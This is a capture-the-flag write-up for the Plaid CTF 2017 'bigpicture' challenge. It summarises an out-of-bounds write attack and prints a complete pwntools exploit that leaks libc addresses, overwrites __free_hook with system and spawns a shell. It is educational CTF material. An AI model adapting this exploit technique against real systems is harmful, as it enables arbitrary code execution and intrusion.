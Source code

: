 ```yaml
---
title: "BigPicture | Plaid CTF 2017"
categories: ["pwn"]
tags: ["stack overflow"]
points: 200
solves: 67
---
```


I wasn't able to solve this challenge during the CTF, but I decided read a writeup and try again! In this post I'll share what I learned.

## Solution summary

I based my exploit on this [bigpicture writeup](https://amritabi0s.wordpress.com/2017/04/24/plaid-ctf-2017-bigpicture-write-up). The write up explains everything in more detail, go read it!

The exploit steps were:
1. Find the `libc offset` in relation to our buffer
2. Find the `libc base` address by leaking some value in the libc data section which contains a pointer to somewhere else in the libc (I used `__memalign_hook`)
3. Overwrite `__free_hook` with a pointer to `system`
4. Write `"/bin/sh\x00"` in the buffer (since the free is going to be called on that buffer)
5. Execute the `quit` command and the `free(buf)` call should instead call `system("/bin/sh")` and spawn a shell


## What I learned for the next CTF
1. If we allocate a large enough chunk, that chunk will not be on the heap section, but instead the malloc will call `mmap` and (at least for this case) the address will be **relative to the LIBC_BASE address**, allowing you to find where the libc is in relation to the chunk allocated.
2. I also learned that you can find the libc base address by looking at some pointers in the libc data section, (I assumed it was possible, but had never tried it before)
3. As I had previously learned the libc hooks (malloc_hook, free_hook..) are a great way to redirect code execution if you find a way to overwrite them

# Exploit
```python
#!/usr/bin/python
from pwn import *

TESTING_LOCAL = True

if TESTING_LOCAL:
    # Libc offsets
    __memalign_hook_OFFSET = 0x398ae0
    __free_hook_OFFSET     = 0x39a788
    SYSTEM_OFFSET          = 0x3f460

    # Ofsets related to the buffer
    LIBC_OFFSET_TO_BUF = -0x497010
    __free_hook_OFFSET_TO_BUF     = LIBC_OFFSET_TO_BUF + __free_hook_OFFSET
    __memalign_hook_OFFSET_TO_BUF = LIBC_OFFSET_TO_BUF + __memalign_hook_OFFSET
    __memalign_hook_content_TO_LIBC_OFFSET = 0x7c240
else:
    pass

def go():
    if TESTING_LOCAL == True:
        p = process("./bigpicture")
    else:
        p = remote("bigpicture.chal.pwning.xxx", 420)

    WIDTH  = 1024
    HEIGHT = 1024
    p.sendlineafter("big? ", "%d x %d" % (WIDTH, HEIGHT))

    def get_val(offset):
        return [offset/HEIGHT, offset%HEIGHT]

    def plot(x, y, c):
        p.sendlineafter(">", " %d , %d , %c " % (x, y, c), )

    def leak_byte(offset):
        val = get_val(offset)
        plot(val[0], val[1], "\x00")
        res = p.recvuntil("\n", timeout = 2)
        if "overwriting" not in res:
            return "\x00"
        else:
            return res.split("overwriting ")[1].split("!")[0]

    def write_byte(offset, c):
        val = get_val(offset)
        plot(val[0], val[1], c)

    # Check if the offset is write, by checking whether we find the string "ELF" at that location
    check_if_we_got_libc = leak_byte(LIBC_OFFSET_TO_BUF+1) + leak_byte(LIBC_OFFSET_TO_BUF+2) + leak_byte(LIBC_OFFSET_TO_BUF+3)
    assert check_if_we_got_libc == "ELF"
    log.success("Found libc base at offset: %s" % hex(LIBC_OFFSET_TO_BUF))

    leaked_memallign_content = leak_byte(__memalign_hook_OFFSET_TO_BUF+0) + leak_byte(__memalign_hook_OFFSET_TO_BUF+1) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+2) + leak_byte(__memalign_hook_OFFSET_TO_BUF+3) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+4) + leak_byte(__memalign_hook_OFFSET_TO_BUF+5)
    leaked_memallign_content = u64(leaked_memallign_content.ljust(8, "\x00"))
    LIBC_BASE = leaked_memallign_content - __memalign_hook_content_TO_LIBC_OFFSET

    # Leak meamallign_hook content so we can locate the LIBC_BASE
    log.info("Found memallign_hook content equals " + hex(leaked_memallign_content))
    assert LIBC_BASE & 0xfff == 0 # Ensure the last 12bits are 0. If not it surely is not the libc base.
    log.success("Found libc base at " + hex(LIBC_BASE))

    SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
    log.info("SYSTEM at: " + hex(SYSTEM_ADDR))

    # Ovewrite the __free_hook with system and confirm it worked
    SYSTEM_ADDR_packed = p64(SYSTEM_ADDR)
    write_byte(__free_hook_OFFSET_TO_BUF+0, SYSTEM_ADDR_packed[0])
    write_byte(__free_hook_OFFSET_TO_BUF+1, SYSTEM_ADDR_packed[1])
    write_byte(__free_hook_OFFSET_TO_BUF+2, SYSTEM_ADDR_packed[2])
    write_byte(__free_hook_OFFSET_TO_BUF+3, SYSTEM_ADDR_packed[3])
    write_byte(__free_hook_OFFSET_TO_BUF+4, SYSTEM_ADDR_packed[4])
    write_byte(__free_hook_OFFSET_TO_BUF+5, SYSTEM_ADDR_packed[5])
    write_byte(__free_hook_OFFSET_TO_BUF+6, SYSTEM_ADDR_packed[6])
    write_byte(__free_hook_OFFSET_TO_BUF+7, SYSTEM_ADDR_packed[7])

    leaked_free_hook = leak_byte(__free_hook_OFFSET_TO_BUF+0) + leak_byte(__free_hook_OFFSET_TO_BUF+1) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+2) + leak_byte(__free_hook_OFFSET_TO_BUF+3) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+4) + leak_byte(__free_hook_OFFSET_TO_BUF+5)
    leaked_free_hook = u64(leaked_free_hook.ljust(8, "\x00"))
    assert leaked_free_hook == SYSTEM_ADDR
    log.success("Successfully written free_hook with system's addr")

    for i, c in enumerate("/bin/sh"):
        write_byte(i, c)

    p.sendline("quit")
    p.clean()
    p.sendline("echo HELLO")
    assert p.recvuntil("HELLO") == "HELLO"
    log.success("We got a shell ;)!")

    p.interactive()

go()
```